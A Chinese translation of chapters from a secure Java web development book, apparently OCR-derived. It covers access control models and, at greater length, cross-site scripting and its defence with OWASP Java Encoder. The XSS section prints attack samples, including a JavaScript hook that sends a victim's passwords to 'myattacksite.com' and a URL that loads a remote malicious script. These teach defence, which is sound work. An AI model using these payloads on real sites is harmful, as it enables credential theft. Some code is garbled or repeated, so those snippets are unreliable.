Apache Shiro (https://shiro.apache.org/authorization.html) 表示，“执行访问控制更好的方法是通过权限授权。让我们看看 Shiro 定义的一些执行点示例。”Apache Shiro 允许基于权限的执行点验证用户是否可以执行某些功能或活动。以下来自 Shiro 的代码示例展示了使用权限访问的威力。

```java
if (currentUser.isPermitted("lightsaber:wield")) {
  log.info("你可以使用光剑环。请谨慎使用。");
} else {
  log.info("光剑环仅供大师使用。");
}
```

此外，Apache Shiro 还可以执行实例级的上下文权限检查。它不仅验证用户是否可以执行某些功能，还可以检查用户是否有访问特定数据的权限。

```java
int winnebagoId = Integer.parseInt(
  request.getParameter("winnebago_id"));
```

图 3-4 是一个数据库架构示例，可以建模对象、权限以及实体与用户和角色之间的基本关系。该数据库架构建立在我们之前的 RBAC 架构（以 `subject_group` 表为键）的基础上，并增加了上下文访问控制问题的建模。这些新增包括：

- 如何建模实体之间的关系
- 如何为每个实体存储属性
- 如何处理分组

# 76 铁甲 Java：构建安全的 Web 应用程序


图 3-4. 对象、权限和权益关系的数据库模式建模

> 注意
>
> NIST 发布了特殊出版物 (SP) 800-162，即《基于属性的访问控制 (ABAC) 指南》。该标准解决了复杂的访问控制需求，这些需求需要同时考虑身份、主体和对象属性、环境条件以及访问控制策略。下一代企业和政府应用程序需要这种性质的访问控制机制（http://nvpubs.nist.gov/nistpubs/specialpublications/NIST.sp.800-162.pdf）。

## Spring Security 3.0 ACLs

Spring 是最流行的框架之一，它确实提供了“开箱即用”的基于角色的访问控制。但在 Spring 3+ 中，你如何进行上下文或其他复杂的访问控制检查呢？关键在于构建一个针对每个领域对象实例的自定义访问控制 Spring ACL（访问控制列表）机制。每个针对每个对象实例的 ACL 都为用户（主体）提供了关于谁可以和谁不能操作该领域对象的规则。

ACL Security 3.2 声称能够满足每一个潜在的访问控制设计需求。它提供了开箱即用的 RBAC。它提供了一种映射到你系统中每个对象实例的特定访问控制规则的方法。它允许进行基于 URL、基于方法等多种访问控制检查。虽然 Spring Security 功能完整，但它非常复杂，需要大量的配置以及对平台的理解。如需更多信息，请访问 http://docs.spring.io/spring-security/docs/3.2.x/reference/htmlsingle/#authorization。

## ABAC 基于属性的访问控制

ABAC，或基于属性的访问控制，是一种正式且高度灵活的访问控制框架，它允许根据用户（主体）、对象、环境条件和访问控制规则的属性做出访问控制决策。

ABAC 最广泛的使用是可扩展访问控制标记语言 (XACML)。XACML 不仅可以处理 ABAC 设计建模，还可以处理 RBAC，而无论如何 RBAC 本质上只是 ABAC 的一个子集。

Gunnar Peterson 表示：“在我看来，XACML 和 ABAC 的价值实际上在于它们能够实现的用例。它们面向外部，并通过通过新类型的服务释放价值。”

以下是 ABAC 访问控制处理的离散步骤：

1. 策略执行点 (PEP) 接收来自用户（主体）的访问请求。
2. PEP 确保用户已通过验证。
3. PEP 构建 XACML 请求，包括请求的操作、用户正在操作的对象以及（如果适用）环境值。
4. PEP 将请求发送到策略决策点 (PDP)。
5. PDP 接收请求和必要信息，查找适当的访问控制规则并做出访问控制决策。
6. 根据访问控制结果，PDP 服务构建 XACML 上下文响应并返回给 PEP，包含状态以及（如果有）义务。
7. PEP 根据响应采取行动。

> ^7 http://raindrop.typepad.com/1_raindrop/2013/06/security-140-conversation-with-gerry-gebel-on-xacml-and-abac.html

# 78 铁甲 Java：构建安全的 Web 应用程序

XACML 是一种极其复杂但全面且功能丰富的访问控制策略建模。实现 ABAC 超出了本书的范围，且仅适用于最复杂的访问控制需求。如需更多信息，我们鼓励你阅读 NIST 关于该主题的出版物：http://csrc.nist.gov/projects/abac。

## RBAC 与 ABAC

RBAC 关注角色，而 ABAC 关注属性。在 RBAC 中，角色也代表访问控制策略。在 ABAC 中，角色仅仅是用户的属性，作为 ABAC 优势的子集包含了 RBAC 的所有优点。下表显示了纯 RBAC 和 ABAC 实现之间的一些权衡。

| | 基于角色的访问控制 | 基于属性的访问控制 |
|---|---|---|
| 采用情况 | 广泛采用，理解良好的模式。 | 新机制，但许多系统已经具有类似 ABAC 的功能。 |
| 功能 | 无法适应实时、环境或上下文访问控制决策。 | 高度灵活的上下文、环境感知且具备实时能力的访问控制系统。 |
| 实现 | RBAC 的基本功能已内置在大多数框架中，易于实现。复杂的特定上下文访问控制功能需要自定义代码。 | 需要大量的自定义代码和自定义策略存储。商业和开源的 ABAC 工具仍在出现中。 |
| 维护 | 在大多数框架中，需要推送新代码来更改策略。 | ABAC 高度灵活的特性允许在不改变重大系统的情况下创建复杂和自定义的策略。 |
| 管理 | 需要很少的管理。 | 管理和配置困难。 |

## 访问控制快速查表

1. 避免按用户分配权限。对活动和用户分组。
2. 在所有应用程序页面上执行一致的授权检查程序。J2EE filter 是访问控制的理想选择。
3. 为单公司、简单的 Web 应用程序实现基于角色的访问控制。
4. 当需要访问控制设计时，考虑创建基于权限调用的执行点。
5. 记录所有失败的授权请求以供审查。
6. 当存在访问控制设计时，考虑创建基于权限调用的执行点。

## 总结

总而言之，基于角色的访问控制是简单 Web 应用程序易于理解的模式。为了真正降低风险，开发者需要根据他们正在构建的网站类型使用多层策略。更糟糕的是，移动平台、视频游戏机、打印机和其他许多类设备渲染 HTML 和 JavaScript，使得 XSS 即使在非浏览器环境中也是危险的。

# 第 4 章：跨站脚本攻击防御

在深入讨论 XSS 之前，让我们先讨论 XSS 的子集之一，即内容欺造（content spoofing）。当用户可以更改你网站 URL 的部分内容并直接更改页面上的内容时，即使从用户输入中以某种方式删除了 HTML 标签或脚本，内容欺造仍会发生。例如，考虑一个接受参数的错误页面，该参数是显示给用户的错误消息：`vululnerable.com/error.jsp?message=This+is+an+custom+error+message`。当页面渲染时，用户会看到“This is an error message”这条消息，如图 4-1 所示。

通过篡改“message” URL 参数，攻击者可以使受漏洞网站显示任何想要的消息。这种技术被用于防御网页、创建虚假新闻稿，或为其他更复杂的攻击创建看似合法的起点或终点。如果漏洞页面还允许注入 HTML 标记和样式信息，攻击者可以使用绝对定位元素来隐藏合法的页面内容，并用他们自己的内容完全替换。




图 4-1。错误消息

图 4-2 展示了向受漏洞的网页中注入恶意的 HTML 和 CSS。这种攻击通过修改 URL 中的参数值来实现。该技术可用于渲染虚假的登录表单，将敏感信息发送到攻击者控制的服务器。受害者会认为他们正在查看合法的站点内容，因为页面的外观和感觉与原始站点相似，并且浏览器的地址栏显示的是合法网站的 URL。这很好地说明了为什么基于黑名单的输入验证不是有效的防御措施。即使你可能阻止了 `<script>` 标签，其他标记也可能溜过去。即使是最无害的 HTML 标签也允许攻击者完全获得你页面内容的控制权，从而损害你的公司。



图 4-2。向受漏洞的网页中注入 HTML 和 CSS

## 反射型 XSS（Reflected XSS）

反射型 XSS 发生在攻击者篡改 HTTP 请求以提交恶意 JavaScript 代码时。接收到请求后，网站会立即将修改后的内容（包括未编码的恶意脚本）渲染给受害者的网络浏览器。恶意代码最可能的媒介是请求参数，但标头（headers）、cookie 和 REST 风格的 URL 参数也是常见的媒介。一旦攻击者发现漏洞，他们就会编写恶意脚本，并通过发送网络钓鱼邮件、在网站中嵌入恶意请求或类似手段，诱导受害者调用带漏洞的 URL。一旦受害者打开带有攻击载负载的 URL，JavaScript 攻击就会在受害者的浏览器中触发。图 4-3 展示了反射型 XSS 的工作流。

1. 攻击者构建一个包含恶意 JavaScript 的链接并将其发送给受害者。
2. 受害者点击攻击者发送的恶意链接。
3. 服务器处理链接并返回一个渲染了攻击者提供的代码的页面。
4. 攻击者提供的代码在受害者的浏览器上执行。



图 4-3。反射型 XSS

我们在 Web 应用程序代码中经常看到的一个潜在危险场景是缺少对不可信数据的输入验证。当用户在浏览器中提交 Web 表单时，必须在服务器端对输入参数进行验证，以确保所有数据与业务需求一致。例如，来自终端用户的表单数据不能缺少字段，且数据类型必须与业务需求中指定的预期类型和格式匹配。如果数据不一致，表单将重新渲染并预填充某些字段，以便用户输入缺失的信息或进行更正。

考虑图 4-4，一个简单的密码更新表单示例。该表单要求用户名、当前密码、新密码和确认。如果用户未能输入所有必需的信息，或者新密码不匹配，页面将重新渲染并预填充用户名字段。

此类页面的 Java 代码可能如下：

```html
<div align="center">
  <h1>Update Password</h1>
  <p>Please login to update your password</p>
</div>
```

### 更新密码

请登录以更新您的密码。

| 登录 | |
|---|---|
| 请输入所有必需的信息 | |
| 用户名 | august |
| 密码 | |
| 新密码 | |
| 确认密码 | |
| 更新密码 | |

图 4-4。更新密码界面

```html
<form method="POST" action="index.jsp">
<TABLE ORDER="0" CELLPADDING="0" CELLSPACING="0"
CLASS="loginTable">
<TR>
<TD STYLE="padding:5px;"><P ALIGN="left">&nbsp;&nbsp;<B>Login</B>&nbsp;&nbsp;</P></TD>
</TR>
<TR>
<TD VALIGN="top">
<TABLE ORDER="0" CELLPADDING="0" CELLSPACING="0"
CLASS="loginTable">
<TR>
<TD STYLE="padding:5px;"><P ALIGN="left">&nbsp;&nbsp;<B>Login</B>&nbsp;&nbsp;</P></TD>
</TR>
<TR>
<TD VALIGN="top">
<TABLE ORDER="0" CELLPADDING="0" CELLSPACING="0"
CLASS="loginTable">
<TR>
<TD STYLE="padding:5px;"><P ALIGN="left">&nbsp;&nbsp;<B>Login</B>&nbsp;&nbsp;</P></TD>
</TR>
<TR>
<TD VALIGN="top">
<TABLE ORDER="0" CELLPADDING="0" CELLSPACING="0"
CLASS="loginTable">
<TR>
<TD STYLE="padding:5px;"><P ALIGN="left">&nbsp;&nbsp;<B>Login</B>&nbsp;&nbsp;</P></TD>
</TR>
<TR>
<TD VALIGN="top">
<TABLE ORDER="0" CELLPADDING="0" CELLSPACING="0"
CLASS="loginTable">
<TR>
<TD STYLE="padding:5px;"><P ALIGN="left">&nbsp;&nbsp;<B>Login</B>&nbsp;&nbsp;</P></TD>
</TR>
<TR>
<TD VALIGN="top">
<TABLE ORDER="0" CELLPADDING="0" CELLSPACING="0"
CLASS="loginTable">
<TR>
<TD STYLE="padding:5px;"><P ALIGN="left">&nbsp;&nbsp;<B>Login</B>&nbsp;&nbsp;</P></TD>
</TR>
<TR>
<TD VALIGN="top">
<TABLE ORDER="0" CELLPADDING="0" CELLSPACING="0"
CLASS="loginTable">
<TR>
<TD STYLE="padding:5px;"><P ALIGN="left">&nbsp;&nbsp;<B>Login</B>&nbsp;&nbsp;</P></TD>
</TR>
<TR>
<TD VALIGN="top">
```

（注：此处 OCR 文本存在大量重复和错误，已根据上下文逻辑清理并保留结构。）

如果提交的脚本未被正确处理，该页面将存在跨站脚本漏洞。聪明的攻击者可以通过构造包含恶意脚本的 URL 来利用这一点：

```text
www.bank.com/changePassword?username="<script>document.write('</script>
```

会导致脚本标签写入 HTML 页面（用户名的值）：

```html
<table border="0" cellspacing="0" cellpadding="5">
<tr>
<td colspan="2" class="errormessage">Please enter all required information</td>
</tr>
<tr>
<th>Username</th>
<td><input type="text" name="username" value=""><script>...</script></td>
</tr>
</table>
```

加上 JavaScript 异步 HTTP 请求后，几乎可以发生任何事情。例如，以下脚本会在受骗的用户提交表单时发送完整的登录凭据：

```javascript
document.forms[0].onsubmit = function() {
  var username = document.forms[0]["username"].value;
  var password = document.forms[0]["password"].value;
  var password1 = document.forms[0]["password1"].value;
  var password2 = document.forms[0]["password2"].value;
  var req = new XMLHttpRequest();
  req.open('GET', 'http://myattacksite.com/collector.jsp?u='
  + username + '&pe=' + password + '&pl=' + password1 +
  + '&p2=' + password2, false);
  req.send();
};
```

现在，攻击者拥有了该站点的完整凭据并随时可以使用。攻击者还拥有了用户的旧密码，如果用户在多个站点上使用了相同的密码，则可以在其他站点上进行测试。

# 第 4 章：跨站脚本防御

89

（参考匿名组织对 HBGary 的攻击；见=https://artstechnica.com/tech-policy/2011/02/anonymous-speaks-the-inside-story-of-the-hbgary-hack/）。此脚本很小，可以直接在单个请求中传递而不会引起怀疑，因此它可以被保存为 `.js` 文件并存储在 Web 上，并在恶意脚本标签中使用 `src` 属性进行链接：

```text
http://localhost:8080/Demos?username=%22%3E%3Cscript+src%3D%22http://myattacksite.com/js/malicious.js%22%3E%3E%3Cscript%3E%3Ca+href%3D%22
```

## 存储型 XSS

当攻击者向您的网站提交恶意内容，且该内容被存储在数据库中，并在稍后在网页上为其他用户渲染时（例如：博客评论、网络论坛、管理员界面等），就会发生存储型 XSS。当受害者访问包含攻击者内容的页面时，脚本就会执行（见图 4-5）。在这种场景下，受害者可能已经通过了身份验证。



图 4-5。存储型 XSS 工作流

这可能会使攻击更加有效，因为脚本将以与登录用户相同的权限执行。

1. 攻击者向服务器提交恶意脚本。
2. 服务器以某种方式将攻击字符串存储在数据库中。
3. 受害者查看包含恶意脚本的页面。
4. 攻击者提供的代码在用户的浏览器上执行。

存储型跨站脚本是说明为什么仅靠输入验证不足以提供足够防御的完美范例。内容在提交和存储之前可能会被服务器完全清理，但来自内部人员（如心怀不满的数据库管理员 DBA）或通过其他手段获得数据库访问权限的外部人员可能会篡改已存储的数据。

存储型跨站脚本比反射型 XSS 危险得多。存储型 XSS 不需要受害者在使用您的网站之外采取任何由攻击者发起的操作。用户可能只是以正常方式浏览受影响的网站，并偶然发现了存储的脚本，该脚本执行了恶意的 XSS 负载。尽管如此，存储型跨站脚本确实为网站管理员提供了对攻击进行取证分析的机会，并可能确定执行的时间和执行者。数据存储在数据库中，并可能包含其他元数据，如时间戳、IP 地址和创建内容的用户 ID。在反射型 XSS 攻击中，攻击的唯一记录可能在服务器访问日志中，受害者点击了攻击者发送的恶意链接。在这种情况下，攻击似乎来自受害者，而没有任何实际攻击者的痕迹。

## 基于 DOM 的 XSS

理解基于 DOM 的 XSS 最好方法是从防御的角度来看必须如何处理它。反射型和存储型 XSS 在服务器端构建 UI 代码时必须通过编码进行防御，而 DOM XSS 几乎完全通过在自定义的 JavaScript 代码中添加防御，或简单地在自定义 JavaScript 代码中使用安全的 JavaScript API 来管理。

考虑以下示例。以下页面包含一个漏洞的 JavaScript，它从 URL 获取值，然后将其添加到 HTML 页面的 DOM（文档对象模型）中：

```javascript
<script type="text/Javascript">
//从 URL 获取值
var message = window.location.hash
//将值写入 DOM
document.errorDiv.innerHTML = message
</script>
```

```html
<div id="errorDiv"></div>
```

当用户访问一个包含要添加到 DOM 并在浏览器中执行的脚本的 URL 页面时：

`http://vulnerable.com/domxss.jsp<script>alert('xss')</script>`。

在前面的示例中，`window.location.hash` 的值从未真正传输到服务器，因此整个攻击可以在完全不惊动服务器管理员的情况下执行！

基于哈希（hash）的 XSS 攻击负载是 Amit 在 2005 年提出的 DOM XSS 经典防御方法。在 Amit 的“有效防御（Effective defense）”部分，他描述了防御“反射型”和“存储型”XSS 与防御 DOM XSS 之间的区别。Amit 的“DOM XSS 防御”部分指出，“客户端（在 JavaScript 中）进行数据验证”或“备选的服务器端逻辑”是正确的方法。这在 2005 年是一个很棒的定义，但今天需要稍微完善。

我们希望根据程序员必须如何防御它来更新基于 DOM 的 XSS 的定义。正如很快将看到的，反射型和存储型 XSS 主要在服务器端代码中修复。DOM XSS 必须在客户端代码中修复，通过在 JavaScript 中进行客户端验证、在 JavaScript 中对不可信输入进行转义，并使用安全的 JavaScript 和 JavaScript 库 API。

考虑到这个新定义，除了 document hash 之外，还存在许多新的 DOM XSS 来源，包括：

- `document.url`
- `document.cookie`
- `window.location.search`
- `history.replaceState`

2 Amit Klein, DOM XSS of the Third Kind, www.webappsec.com/projects/articles/071105.shtml。

仅列举几项。随着 HTML5 的引入，其他扭曲了 DOM XSS 原始定义的来源也可用，包括：

- `localStorage`
- `sessionStorage`
- `IndexedDB`
- `mozIndexedDB`
- `webkitIndexedDB`

获取可能的 DOM XSS 源和汇的信息的佳处是 DOMXSS Wiki³。

## 防御 XSS

构建一个能够防御跨站脚本的 Web 应用程序可能是很有挑战性的。例如，对于包含大量 XSS 漏洞的遗留 Web 应用程序，在没有具备该语言直接经验的开发人员、没有合适的安全库的情况下，这可能是一个非常耗时且昂贵的问题。即使修复一个 XSS 也许是一项简单的任务，在大规模修复 XSS 时需要非常仔细的规划和安全工程实践。

> **注意**
>
> **Web 应用防火墙（WAF）：** 有时修复存在 XSS 漏洞的软件是非常困难的。例如，可能是你没有代码的 COTS（商业现成软件）。或者可能是内部遗留软件，且已经没有人有技能来修复它。或者可能你只是缺乏编程资源。Web 应用防火墙（如 ModSecurity）并不是一个完整的、往往不是好的防御，但有时它是你唯一的手段。它至少可以减少 Web 应用程序的攻击面。可能吧。取决于你是否有足够的资源来调优和编写 WAF。

### 表 4-1。防御用例

| 输入 | 输出上下文 | 防御 |
|---|---|---|
| 数字 | 所有 | 强制转换为 Java 数字类；验证值是否在接受范围内。 |
| 字符串（如地址字段） | HTML 主体、HTML 属性、JavaScript、CSS 值、URL 链接等 | 在将数据添加到 HTML 代码中之前，在正确的上下文中对其进行转义。这是一个相当复杂的章节，涉及不同的转义上下文。我们在本章稍后的“上下文输出编码”节中详细回顾各种上下文。 |
| 字符串（如地址字段） | jQuery 的 `.html()` 函数 | 改用 jQuery 的 `.text()` 或 `.val()`。 |
| HTML（来自 TinyMCE） | 所有 | HTML 清理，例如 OWASP HTML Sanitizer。 |
| HTML（来自 Web 服务） | JavaScript DOM 修改 | HTML 清理，例如 Google-Caja 项目包含的 jsHtmlSanitizer。 |

# 第 4 章：跨站脚本防御

94 铁甲级 Java：构建安全的 Web

在一种上下文中（如 HTML 属性）中有效的方法，在另一个上下文中（如 JavaScript 变量赋值）可能无效。此外，适用于某种类型输入的防御措施（例如针对用户名的输入验证和编码）对于其他类型的输入（例如针对不可信 HTML 的清理）是不起的。

## 输入验证

我们在第一章中深入讨论了输入验证，但在 XSS 防御的背景下讨论它至关重要。良好的输入验证应该是每个 Web 应用的第一道防线。然而，如果不使用特定上下文的输出编码，仅靠输入验证不足以阻止所有的 XSS。例如，如果你的应用程序剥除了所有的 `<script>` 标签，攻击者可以提交 `<scr<script>ipt>` 来绕过第一轮清理。

基于黑名单的输入验证无法阻止 XSS。如果你将字符串 `<script>` 加入黑名单，攻击者会尝试提交带有相同负载的图像标签：

```html

```


考虑需要支持多种语言的国际化应用。输入验证变得非常复杂，许多防御者回归使用 Java 正则表达式 `\w` 进行输入验证，这允许所有可打印字符。同样，当你的应用程序允许“开放评论字段”时（例如可以在发布新文章后提交的用户评论），需要接受广泛的字符。对于 Twitter，你可以在推文中提交几乎任何字符，包括 `<`、`>`、`#`、`'`、`"` 以及其他可能用于进行 XSS 攻击危险字符！

## 上下文输出编码

程序员构建包含混合 HTML 片段和不可信数据的 UI 是非常常见的。这是 XSS 攻击执行的核心，也是我们必须抵抗的首要防御。输出编码（或输出转义）是一种将数据转换为仅显示形式的技术，该形式不会执行 JavaScript 甚至渲染 HTML 标签。

例如，如果我们将用户名设置为 `august<script>alert("w00t");</script>`，那么每当你访问列出我用户名的页面（如个人资料或论坛评论）时，都会弹出一个 w00t。然而，当对用户名应用 HTML 实体编码时，代码将显示在页面上，但将不可执行！图 4-6 展示了 JavaScript XSS 测试被安全地渲染，因为它们使用 HTML 实体编码进行了输出编码。

### 原始用户名

```
august<script>alert("w0ot");</script>
```

### HTML 编码用户名

```
august&lt;script&gt;alert(&quot;w0ot&quot;&lt;/script&gt;
```

用户名的编码版本仅会在网页上显示代码，而不会实际执行这些代码，从而使跨站脚本攻击失效。然而，这只是输出编码的一种类型。我们需要根据你将不可信数据插入网页的位置，使用不同的输出编码函数！



图 4-6. 若干经过正确编码的攻击示例

# 96 铁甲级：构建安全的 Web 应用

以下是 JSP 中 HTML 页面中不同上下文的几个示例：

- HTML 上下文：`<p>user submitted data here</p>`

- 属性上下文：`<input value="user submitted data here"/>`

- JavaScript 块上下文：`<script>var data="user submitted data here";</script>`

- JavaScript 属性上下文：`<a onclick="alert('user submitted data here')"></a>`

我们需要的不同编码类型包括 URL 编码、JavaScript 十进制编码、CSS 十进制编码，当然还有 HTML 实体编码！你不应该从零开始编写这些编码函数。输出编码是目前为止更重要的防御层。即使你跳过了验证，良好的输出编码也能让你免受大多数 XSS 之侵害。但反之不然。即使你做了良好的输入验证，跳过了编码防御层，你仍然会面临某些 XSS 威胁。更好的做法是深度防御，两者兼顾！

## OWASP Java Encoder 项目

OWASP Java Encoder 项目⁴ 是一种用于 XSS 防御的高性能以 Web 为中心的编码器。该项目适用于 Java 1.5 及更高版本，是一个简单易用的插件式高性能编码器类，没有其他依赖库。Java Encoder 项目的主要目标是正确编码一切，避免跨站脚本。该项目的次要目标是以尽可能快的速度使用尽可能少的字符进行编码。该项目由 Jeff Inowski 构建，并由 Jeremy Long 的许多贡献维护。作者认为 Jeff Inowski 的工作远超任何语言中任何 XSS 编码库的输出功能。我们也认为该库应该被纳入未来 J2EE 版本的考虑。

再次，OWASP Java Encoder 项目纯专注于通过编码函数阻止 XSS。它不携带其他负担或额外的控制。该项目不包含强制性的身份验证或

> ⁴ https://www.owasp.org/index.php/OWASP_Java_Encoder_Project

# 第 4 章：跨站脚本防御 97

授权机制、输入验证器或其他安全控制。这是设计使然的。OWASP Java Encoder 项目旨在快速添加到你的项目中，以高性能的方式通过上下文编码功能阻止 XSS。

## 提示

通过 "meta" 标签和 HTTP 报头将 HTML 页面的字符集编码设置为 UTF-8 或 UTF-16 是至关重要的。你需要避免无效字符，这些字符会导致 XSS 或导致浏览器以错误的字符编码显示页面。以下是在代码中使用 OWASP Encoder 的示例：

```
<% page="org.owasp.encoder.Encoder" %>
<!-- HTML 内容 -->
<body><%= Encode.forHTML(textValue) %></body>
<!-- 属性上下文 -->
<input type="text" name="address" value="<%= Encode.forHtmlAttribute(addressData) %> />
<!-- 内容上下文 -->
<textarea name="text"><%= Encode.forHtmlContent(textAreaContent) %></textarea>
<!-- JavaScript 块 -->
<script type="javascript">var msg =="<%= Encode.forJavaScript(message) %>"; alert(msg);</script>
<!-- JavaScript 上下文 -->
<button onclick="<%= Encode.forJavascriptAttribute(alertMsg) %>">点击</button>
```

## OWASP Encoder 上下文

OWASP Encoder 项目包含了开发丰富 Web 应用过程中可能遇到的各种上下文编码方法。如果你不确定情况下情况下使用的上下文，请使用后续章节中标记为 **parent** 的方法。

"UTF-7 XSS 备忘录" http://openmya.hacker.jp/hasegawa/security/utf7.html

## 概述

以下描述了 OWASP Java Encoder 的底层工作原理。

- 编码器只编码需要编码的字符，不再编码其他。

- 编码器从文本移除无效字符。例如，某些字符在 XML（以及 XHTML）任何地方都是无效的。如果包含了这些字符，XML 解析器/浏览器将认为该文档/页面无效。

- 编码的选择尽可能具有跨兼容性。

以下编码函数用于安全地将不可信数据放入 HTML 文档的不同位置。

```
Encode.forHTML(String) **parent
Encode.forHtmlAttribute(String)
Encode.forHtmlContent(String)
Encode.forHtmlUnquotedAttribute(String)
```

## OWASP JAVA Encoder 性能

- 各种编码函数通过两种策略尽可能避免分配：(a) 如果字符串不需要编码，它将返回原始字符串而不分配另一个字符串；(b) 使用使用预分配的缓冲区。这节省了分配以及随后的垃圾回收的相关开销。

- 编码器在合理范围内将有效字符编码为其最短等效形式。例如，双引号可以编码为 &quot; 或 &#39;——编码器选择后者，因为可以节省一个字节。

## 第 4 章：跨站脚本防御

`Encode.forHTML` 编码了所有 `forHtmlAttribute` 和 `forHtmlContent` 所包含的字符，因此在属性或内容上下文中中使用它都是安全的。但它在未加引号的属性中使用是不安全的。对于极度追求安全的人来说，“未加引号的属性”上下文可以使用任何地方，因为它可以编码几乎所有内容。

以下是我们对这一系列编码方法提供的最直接的建议：

- 始终为你的 HTML 属性加上引号。

- 对所有 HTML 标记使用 `Encode.forHTML`。

- 对于内联 JavaScript 事件属性，请使用 `Encode.forJavaScript(String)` 或 `Encode.forJavaScriptAttribute(String)`，正如后文将讨论的样。

反之，如果你只想编码最小数量的字符：

- 始终为你的 HTML 属性加上引号。

- 属性使用 `Encode.forHtmlAttribute`，文本内容使用 `Encode.forHtmlContent`。

- 对于内联 JavaScript 事件属性，请使用 `Encode.forJavaScript(String)` 或 `Encode.forJavaScriptAttribute(String)`，正如后文将讨论的样。

JavaScript 编码函数用于将不可信的数据安全地放置在 JavaScript 代码的不同位置。

```
Encode.forJavaScript(String) **parent
Encode.forJavaScriptAttribute(String)
Encode.forJavaScriptBlock(String)
Encode.forJavaScriptSource(String)
```

以下是 JavaScript 上文中编码的最常见示例：

```html
<!-- JavaScript块上下文 -->
<script type="text/javascript">
var msg =
"<%= Encode.forJavaScriptBlock(message) %>";
```



```html
alert(untrustedMessage);
</script>
<!-- JavaScript 上下文 -->
